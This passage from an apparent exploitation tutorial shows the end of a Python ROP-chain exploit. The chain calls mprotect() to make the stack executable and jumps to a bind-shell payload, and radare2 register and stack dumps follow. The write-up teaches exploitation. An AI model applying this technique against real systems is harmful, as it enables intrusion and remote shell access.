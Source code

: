 ```Py
exploit += stck(rwx)
exploit += stck(pop_rsi)
exploit += stck(0x21000) # the space for the program STACK from start to end
# 0x21000 last mem address of stack - first mem address of stack
exploit += stck(pop_rdx)
exploit += stck(0x7) # full access rwx
exploit += stck(mprotect_virtual)
exploit += stck(shellcode_addr)

sys.stdout.buffer.write(exploit)
```
The exploit code is well commented so, easy to follow. But tu summarize: We overflow the stack, RBP gets over-written by all B's, ret returns to whats on top of the stack, that is our pop rdi and what comes next, so our params get loaded in the registers rdi,rsi,rdx then the last ret (pop rdx; ret) returns to whats on top of the stack, that is the mprotect address, mprotect() gets called with our params, the stack is now executable and, again, we return to? Yes, to whats on top of the stack, now that is a pointer to where our shellcode starts, so the execution continues there and as the stack is now executable, our bind shell gets executed.

The stack should look like this:

![The stack state](https://miro.medium.com/max/1400/1*0QmDeZvSWl-TtCZBBbA9hw.png)

Let's check the registers'state after the overflow:

```
|           0x5555555546c4      90             nop
|           0x5555555546c5      c9             leave
\           0x5555555546c6      c3             ret
[0x55555555468a]> db 0x5555555546c6
[0x55555555468a]> dc
hit breakpoint at: 5555555546c6
[0x55555555468a]> dr
rax = 0x000000eb
rbx = 0x00000000
rcx = 0x00000000
rdx = 0x00000000
r8 = 0x00000000
r9 = 0x000000de
r10 = 0xffffff22
r11 = 0x00000246
r12 = 0x555555554580
r13 = 0x7fffffffe0a0
r14 = 0x00000000
r15 = 0x00000000
rsi = 0x555555757270
rdi = 0x00000001
rsp = 0x7fffffffdfa8
rbp = 0x4242424242424242
rip = 0x5555555546c6
rflags = 0x00000202
orax = 0xffffffffffffffff
[0x55555555468a]> 
```
As well as the stack:
```
[0x55555555468a]> pxq @ rsp
0x7fffffffdfa8  0x0000555555554753  0x00007ffffffde000   SGUUUU..........
0x7fffffffdfb8  0x00007ffff7dee347  0x0000000000021000   G...............
0x7fffffffdfc8  0x00007ffff7b12516  0x0000000000000007   .%..............
0x7fffffffdfd8  0x00007ffff7afd7e0  0x00007fffffffdf20   ........ .......
0x7fffffffdfe8  0x0000555555554600  0x0000000000000000   .FUUUU..........
0x7fffffffdff8  0x9bc6ed78b872ae73  0x0000555555554580   s.r.x....EUUUU..
0x7fffffffe008  0x00007fffffffe0a0  0x0000000000000000   ................

```